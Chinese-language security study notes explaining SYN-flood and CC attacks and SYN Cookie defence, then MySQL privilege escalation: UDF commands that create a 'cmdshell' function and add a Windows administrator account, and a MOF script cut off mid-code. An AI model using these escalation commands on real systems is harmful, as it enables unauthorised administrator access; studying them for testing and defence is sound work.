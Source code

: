 DDOS
====

Ddos 原理
-------

利用合理的请求造成资源过载，导致服务不可用

### syn 洪流的原理

伪造大量的源 IP 地址，分别向服务器端发送大量的 SYN 包，此时服务器端会返回 SYN/ACK 包，因为源地址是伪造的，所以伪造的 IP 并不会应答，服务器端没有收到伪造 IP 的回应，会重试 3～5 次并且等待一个 SYNTime（一般为 30 秒至 2 分钟），如果超时则丢弃这个连接。攻击者大量发送这种伪造源地址的 SYN 请求，服务器端将会消耗非常多的资源（CPU 和内存）来处理这种半连接，同时还要不断地对这些 IP 进行 SYN+ACK 重试。最后的结果是服务器无暇理睬正常的连接请求，导致拒绝服务。

### CC 攻击原理

对一些消耗资源较大的应用页面不断发起正常的请求，以达到消耗服务端资源的目的。

DDOS 防护
-------

SYN Cookie/SYN Proxy、safereset 等算法。SYN Cookie 的主要思想是为每一个 IP 地址分配一个 “Cookie”，并统计每个 IP 地址的访问频率。如果在短时间内收到大量的来自同一个 IP 地址的数据包，则认为受到攻击，之后来自这个 IP 地址的包将被丢弃。

提权
==

mysql 两种提权方式
------------

udf 提权, mof 提权

### Mysql_UDF 提权

要求: 1. 目标系统是 Windows(Win2000,XP,Win2003)； 2. 拥有 MYSQL 的某个用户账号，此账号必须有对 mysql 的 insert 和 delete 权限以创建和抛弃函数 3. 有 root 账号密码 导出 udf: MYSQL 5.1 以上版本，必须要把 udf.dll 文件放到 MYSQL 安装目录下的 lib\plugin 文件夹下才能创建自定义函数 可以再 mysql 里输入 `select @@basedir` `show variables like ‘%plugins%’` 寻找 mysql 安装路径 提权:

使用 SQL 语句创建功能函数。语法：Create Function 函数名（函数名只能为下面列表中的其中之一）returns string soname ‘导出的 DLL 路径’；

```
create function cmdshell returns string soname ‘udf.dll’
select cmdshell(‘net user arsch arsch /add’);
select cmdshell(‘net localgroup administrators arsch /add’);
 
drop function cmdshell;
```

该目录默认是不存在的，这就需要我们使用 webshell 找到 MYSQL 的安装目录，并在安装目录下创建 lib\plugin 文件夹，然后将 udf.dll 文件导出到该目录即可。

### Mysql mof 提权

```
#pragma namespace("\\\\.\\root\\subscription")
 
instance of __EventFilter as $EventFilter
{
EventNamespace = "Root\\Cimv2";
Name  = "filtP2";
Query = "Select * From __InstanceModificationEvent "
"Where TargetInstance Isa \"Win32_LocalTime\" "
"And TargetInstance.Second = 5";
QueryLanguage = "WQL";
};
 
instance of ActiveScriptEventConsumer as $Consumer
{
Name = "consPCSV2";
ScriptingEngine = "JScript";
```